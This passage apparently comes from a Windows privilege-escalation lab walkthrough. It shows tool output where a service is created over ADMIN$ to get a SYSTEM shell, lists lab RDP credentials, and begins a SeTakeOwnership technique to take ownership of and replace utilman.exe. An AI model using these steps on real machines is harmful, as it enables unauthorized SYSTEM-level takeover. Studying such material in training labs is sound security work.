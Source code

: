[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### SeTakeOwnership
---

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

Log in to the target machine via RDP using the following credentials:

User: THMTakeOwnership

Password: TheWorldIsMine2022

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:

![img](/assets/img/wpe14.png)

Once on the command prompt, we can check our privileges with the following command:

Command Prompt
```
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

We'll abuse utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![img](/assets/img/wpe15.png)

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

Command Prompt
```
C:\> takeown /f C:\Windows\System32\Utilman.exe
